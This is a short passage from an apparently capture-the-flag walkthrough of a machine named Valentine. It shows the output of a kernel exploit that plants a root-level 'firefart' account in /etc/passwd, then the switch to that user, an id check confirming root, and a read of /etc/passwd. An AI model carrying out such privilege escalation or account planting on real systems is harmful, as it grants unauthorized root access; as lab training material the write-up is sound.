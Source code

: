 ```
firefart:figsoZwws4Zu6:0:0:pwned:/root:/bin/bash

mmap: 7f5c66b1e000
```
Now, when the exploit is completed we can switch user to firefart, providing the password inserted during the exploit execution.  
```
hype@Valentine:~$ su - firefart
Password:
firefart@Valentine:~# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@Valentine:~# cat /etc/passwd
firefart:figsoZwws4Zu6:0:0:pwned:/root:/bin/bash
```
as we can see from the uid, firefart user is acting as root, so now we owned the machine.
